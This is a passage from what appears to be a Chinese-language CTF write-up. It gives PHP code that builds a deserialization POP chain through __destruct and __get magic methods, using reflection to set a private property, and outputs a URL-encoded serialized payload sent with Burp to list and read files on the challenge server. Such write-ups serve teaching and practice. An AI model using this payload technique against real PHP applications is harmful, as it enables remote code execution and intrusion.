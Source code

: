 ```python
{
    public $animal;
    public function __get($name)  // 调用类中不存在变量时触发（找有连续箭头的 this->a->b）
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();  // 3 Shark
    }
}
 
class Nature
{
    public $sea;
 
    public function __destruct()  // 对象被销毁时自动触发，也就是我们的链头了
    {
        echo $this->sea->see;  // 4 Sea
    }
}
 
// 按照 1 2 3 4 的顺序编写 pop
$s1 = new Sink();
$s2 = new Shark();

// 创建一个反射对象
$reflection = new ReflectionClass($s2);
// 通过反射获取指定名称为'word'的属性对象
$property = $reflection->getProperty('word'); 

// 设置该属性为可访问状态，这一步通常在属性是私有或受保护的情况下是必要的
// 这样后续才能对其进行取值或赋值等操作
$property->setAccessible(true); 

// 将变量 $s1 的值设置给对象 $s2 的'word'属性
// 这里假设 $s2 是拥有'word'属性的对象实例，$s1 是要赋给该属性的值
$property->setValue($s2, $s1); 
 
$s3 = new Sea();
$s3->animal = $s2;
$n = new Nature();
$n->sea = $s3;
 
echo 'nature='.urlencode(serialize($n));
 
?>
```

题目中提示了 hackbar 没有回显，这里使用 burp 传参

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731736430881-8a460663-f6d6-4cf2-b1c5-34e1618655a2.png)

得到列表，接下来 cat 内容。结束
